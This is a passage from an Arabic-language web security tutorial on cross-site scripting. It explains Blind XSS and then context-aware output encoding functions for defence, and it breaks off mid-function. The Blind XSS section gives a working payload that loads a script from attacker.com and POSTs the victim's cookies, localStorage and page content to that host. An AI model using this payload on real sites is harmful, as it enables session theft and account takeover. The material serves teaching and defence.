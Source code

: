 ### Blind XSS

في حالات الـ Blind XSS، لا يمكن رؤية نتيجة الاستغلال مباشرة. يتم استخدام تقنيات مثل:

```html
<script src="https://attacker.com/log.js"></script>
```

حيث يقوم ملف `log.js` بتسجيل معلومات تعريفية وإرسالها إلى خادم المهاجم:

```javascript
// محتوى ملف log.js
fetch('https://attacker.com/blind-xss-log', {
    method: 'POST',
    body: JSON.stringify({
        url: location.href,
        cookies: document.cookie,
        localStorage: JSON.stringify(localStorage),
        userAgent: navigator.userAgent,
        time: new Date().toString(),
        DOM: document.documentElement.outerHTML.substring(0, 5000)
    })
});
```

## آليات الحماية المتقدمة من XSS

### 1. ترميز المخرجات السياقي (Context-Aware Output Encoding)

الترميز حسب السياق هو أهم آلية للحماية من XSS:

```javascript
// ترميز سياق HTML
function encodeHTML(str) {
    return str
        .replace(/&/g, '&amp;')
        .replace(/</g, '&lt;')
        .replace(/>/g, '&gt;')
        .replace(/"/g, '&quot;')
        .replace(/'/g, '&#x27;');
}

// ترميز سياق JavaScript
function encodeJS(str) {
    return String(str)
        .replace(/\\/g, '\\\\')
        .replace(/'/g, '\\\'')
        .replace(/"/g, '\\"')
        .replace(/`/g, '\\`')
        .replace(/\//g, '\\/')
        .replace(/\n/g, '\\n')
        .replace(/\r/g, '\\r')
        .replace(/\t/g, '\\t');
}

// ترميز سياق سمات HTML
function encodeHTMLAttribute(str) {
    return String(str)
        .replace(/"/g, '&quot;')
        .replace(/'/g, '&#x27;')
        .replace(/\//g, '&#x2F;');
}

// ترميز سياق URL
function encodeURLParam(str) {
```